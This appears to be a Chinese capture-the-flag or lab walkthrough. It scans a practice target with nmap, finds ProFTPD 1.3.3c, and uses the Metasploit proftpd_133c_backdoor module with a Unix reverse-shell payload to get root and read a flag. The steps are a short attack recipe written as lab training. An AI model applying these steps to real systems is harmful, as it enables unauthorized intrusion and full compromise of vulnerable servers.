








# FTP服务练习题

## 信息收集

靶机IP:192.168.1.6

> nmap -sV 靶机IP  => 扫描主机服务信息以及服务版本

> nmap -T4 -A -v 靶场IP => 快速扫描主机全部信息

靶机开放了ftp协议及其端口号，且版本为ProFTPD 1.3.3c

## 查找ftp版本漏洞

> searchsploit 查看该版本的ftp协议是否存在漏洞

存在两个漏洞，我们利用metasploit的后门漏洞。

## metasploit(MSF)进行漏洞攻击

### 查找可利用的模块

> seach + 版本号

### 查找可用payload攻击模块

> use  exploit/unix/ftp/proftpd_133c_backdoor   使用该模块
>
> show payloads     查询可用payload

我们使用payload/cmd/unix/reverse这个payload

### 设置参数

> show options 查看参数，分别设置required为true的参数即可

## 开始攻击

exploit执行远程溢出命令

显然我们直接获得了root权限

接下来只需要进入root目录找到flag文件即可

